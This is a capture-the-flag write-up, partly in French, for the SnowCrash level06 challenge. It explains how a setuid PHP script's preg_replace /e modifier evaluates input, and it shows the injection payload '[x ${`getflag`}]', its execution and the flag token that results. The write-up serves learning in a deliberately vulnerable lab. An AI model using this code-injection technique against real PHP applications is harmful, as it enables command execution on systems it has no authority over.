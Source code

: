 # Start / Analyse

```sh
level06@SnowCrash:~$ ll
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout*
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc*
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*
-r-x------  1 level06 level06  675 Apr  3  2012 .profile*
```
> we have on exec with effectif user flag00 and level06.php

```sh
level06@SnowCrash:~$ cat level06
ELF☺☺☺☻♥☺(□4T◄4         (▲
```
> cut ssh conection

```php
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
> seems to be the source code of the exec, la fonction utilise preg_replace qui donc remplace les pattern par d'autres dans les array ou des strings

## Interpretation des varaiables

En PHP les input `id` et \`id\` ne marche pas car ca print la strings
pour print un variable dans une string php il faut mettre l'expression dans \${exp} comme ca les back ticks seront interprété comme alias de shell_exec
${`id`}

Si on met \${`id`} dans le file, le program nous sort ${`id`} car il prends le retour de file_get_contents comme une string litteral


## e modifier 
Using the e modifier allows us to use PHP functions within the replace parameters. The following bit of code turns all letters upper case in a string of random letters by using the strtoupper() PHP function.

## the \2 parameter

Le parametre \n retourne le n match de regex ici le 2eme match donc (.*) 

## eval
Le fonction eval en php interprete les variables dans une string, exactement ce qui nous faut pour lancer une commande. Le callback qui est appellé par preg_replace avec le modifier /e execute eval a son parametre

# Exploit

Nous devons donc tilt le premiere regex pour entrer dans la fonction callback que notre string soit eval

/tmp/file.txt : 
```
[x ${`id`}]
```

`[x ]` pour tilt le regex

Et `(.*)` correspond à \2 qui est passé au call back donc tous ce qui est apres `[x ` sera eval

/tmp/file.txt : 
```
[x ${`getflag`}]
```

```sh
level06@SnowCrash:~$ ./level06 /tmp/file.txt /tmp/file.txt
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1
```


>> *https://stackoverflow.com/questions/15454220/replace-preg-replace-e-modifier-with-preg-replace-callback*
